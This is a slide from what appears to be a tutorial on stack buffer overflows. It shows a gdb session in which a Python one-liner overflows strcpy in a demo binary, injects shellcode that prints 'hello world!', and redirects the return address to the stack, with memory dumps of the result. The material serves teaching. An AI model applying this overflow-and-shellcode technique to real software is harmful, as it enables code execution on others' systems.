

# 0x05 How to run your shellcode
Time to weaponize the exploit by adding our shellcode.

Stack before the call to strcpy

0x40063b <main+101>  call   0x400480 <strcpy@plt>
| $ gdb -tui ./vuln (gdb) r $(python -c "print 'A' \* 16 + "\xb8\x01\x00\x00\x00\xbf\x01\x00\x00\x00\x48\xbe\xa2\x00\x40\x00\x00\x00\x00\x00\xba\x0e\x00\x00\x00\x0f\x05\xb8\x3c\x00\x00\x00\x0f\x05\x68\x65\x6c\x6c\x6f\x20\x77\x6f\x72\x6c\x64\x21\x0a" + "A" \* (256 - (8 + 48)) + '\x7f\xff\xff\xff\xe3\xe0'[::-1]") |
| --- |
| 0x7fffffffe3e0: 0x0000000000000000 0x0000000000000000 0x7fffffffe3f0: 0x0000000000000000 0x0000000000000000 0x7fffffffe400: 0x0000000000000000 0x0000000000000000 0x7fffffffe410: 0x0000000000000000 0x0000000000000000 |
| --- |
| 0x7fffffffe3e0: 0x4141414141414141 0x4141414141414141 0x7fffffffe3f0: 0x40a2be4801bf01b8 0x050f3cb8050f0eba 0x7fffffffe400: 0x0000006f6c6c6568 0x0000000000000000 0x7fffffffe410: 0x0000000000000000 0x0000000000000000 |
| --- |